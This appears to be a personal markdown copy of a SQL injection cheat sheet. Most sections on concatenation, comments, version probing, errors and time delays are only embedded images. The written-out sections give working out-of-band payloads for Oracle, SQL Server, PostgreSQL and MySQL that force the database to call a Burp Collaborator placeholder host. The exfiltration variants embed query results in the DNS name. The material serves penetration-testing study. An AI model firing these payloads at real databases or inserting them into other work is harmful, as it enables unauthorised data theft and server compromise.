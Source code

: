 ## String Concatenation
- Below concatenating strings in different databases
![[SQL_injection_cheat_sheet_string_concatenation.png]]

## Substring
- Note that the offset index is 1-based.
- Each of the following expressions will return the string `ba`.
![[SQL_injection_cheat_sheet_substring.png]]

## Comments
![[SQL_injection_cheat_sheet_comments.png]]

## Database version
- You can query the database to determine its type and version.
![[SQL_injection_cheat_sheet_Database_version.png]]

## Database contents
- You can list the tables that exist in the database, and the columns that those tables contain.
![[SQL_injection_cheat_sheet_Database_contents.png]]

## Conditional errors
- You can test a single boolean condition and trigger a database error
![[SQL_injection_cheat_sheet_conditional_error.png]]

## Extracting data via visible error messages
- You can test a single boolean condition and trigger a database error.
![[SQL_injection_cheat_sheet_data_extracting_via_error_messages.png]]

## Batched (or stacked) queries
- You can use batched queries to execute multiple queries in succession.
- Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
![[SQL_injection_cheat_sheet_batched_queries.png]]

## Time delays
- You can cause a time delay in the database when the query is processed.
- The following will cause an unconditional time delay of 10 seconds.
![[SQL_injection_cheat_sheet_time_delays.png]]

## Conditional time delays
- You can test a single boolean condition and trigger a time delay if the condition is true.
![[SQL_injection_cheat_sheet_conditional_time_delays.png]]

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

#### Oracle - 
1. (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:|
**Command** - 
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

2. The following technique works on fully patched Oracle installations, but requires elevated privileges:
**Command** - 
```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

#### Microsoft - 
**Command** - 
```sql
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

#### PostgreSQL - 
**Command** - 
```sql
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

#### MySQL - 
The following techniques work on Windows only:
**Command** - 
```sql
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

## DNS lookup with data exfiltration
- You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query.
- To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

#### Oracle - 
**Command** - 
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

#### Microsoft - 
**Command** - 
```sql
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

#### PostgreSQL - 
**Command** - 
```sql
create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();
```

#### MySQL - 
The following technique works on Windows only
**Command** - 
```sql
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```